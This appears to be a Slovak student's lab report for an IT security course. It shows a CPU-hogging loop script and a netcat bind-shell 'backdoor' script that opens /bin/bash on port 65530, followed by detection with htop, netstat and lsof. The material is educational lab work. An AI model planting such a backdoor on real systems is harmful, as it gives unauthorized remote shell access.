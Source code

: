 # PRBIT - Princípy bezpečnosti informačných technológií
## Report - Domáca úloha č.3
#### Autor: Marek Čederle
#### Cvičenie: Pondelok 17:00


### Použité príkazy a ich vysvetlenie
#### Zadanie č.1

![Zadanie cast1](./images/zadanie_cast1.png)
Najskôr si vytvorím súbor `3uloha.sh`, ktorý bude neustále vyťažovať CPU.
```bash
nano /tmp/3uloha.sh
```
Obsah súboru:
```bash
#! /bin/bash
while  true;
do
        echo "3uloha" >> /dev/null
done
```
Nastavenie spustiteľnosti súboru, a spustenie na pozadí (na to slúži `&` na konci príkazu):
```bash
chmod +x /tmp/3uloha.sh
./tmp/3uloha.sh &
```
Pomocou `htop` viem zistiť proces ktorý vyťažuje CPU tak, že si výpis zoradím podľa využitia CPU. Takto viem zistiť používateľa, ktorý ho spustil.
Viem aj znížiť alebo zvýšiť prioritu procesu pomocou `Nice +/-` (pre nice treba spustiť `htop` pomocou `sudo`).
Následne môžem pomocou `htop` zastaviť proces, ktorý vyťažuje CPU, pomocou `SIGSTOP` a `SIGCONT` ho znova spustiť.
A nakoniec ho môžem aj ukončiť pomocou `SIGTERM` alebo `SIGKILL`.

![Usage](./images/htop1.png)


#### Zadanie č.2

![Zadanie cast2](./images/zadanie_cast2.png)

Najskôr si vytvorím súbor `backdoor.sh` v adresári `/tmp` pomocou editora (napr. `nano`). A následne dám nasledujúci obsah:
```bash
#!/bin/bash
nc -lvp 65530 -e /bin/bash
```
- `nc` - príkaz na vytvorenie sieťového spojenia (`netcat`)
    - `-l` - spustenie `nc` v režime "listen"
    - `-v` - zobrazenie výpisu (verbose)
    - `-p` - nastavenie portu
    - `65530` - port, na ktorom bude `nc` počúvať
    - `-e` - spustenie príkazu po pripojení (execute)
    - `/bin/sh` - príkaz, ktorý sa spustí po pripojení

Treba ho nastaviť ako spustiteľný a spustiť na pozadí:
```bash
chmod +x /tmp/backdoor.sh
/tmp/backdoor.sh & # spustenie na pozadi
```

Následne sa môže kolega pripojiť na port 65530 pomocou `nc` a využiť tento backdoor. Špecifikuje IP adresu a port:
```bash
nc <ip_addr> 65530
```
![Backdoor](./images/backdoor.png)

Proces vieme zase identifikovať pomocou `htop`. Ak je niekto pripojený, vieme zistiť dodatočné informácie nasledovným príkazom:
```bash
netstat | grep 65530
```
- `netstat` - príkaz na zobrazenie sieťových štatistík
- `|` - pipe, preposlanie výstupu z prvého príkazu do druhého
- `grep` - príkaz na vyhľadanie reťazca
- `65530` - port, ktorý chceme vyhľadať

Na zistenie sieťových spojení a otvorených portov môžeme použiť nasledujúci príkaz:
```bash
lsof -i
```
- `lsof` - príkaz na zobrazenie otvorených súborov
    - `-i` - zobrazenie otvorených socketov
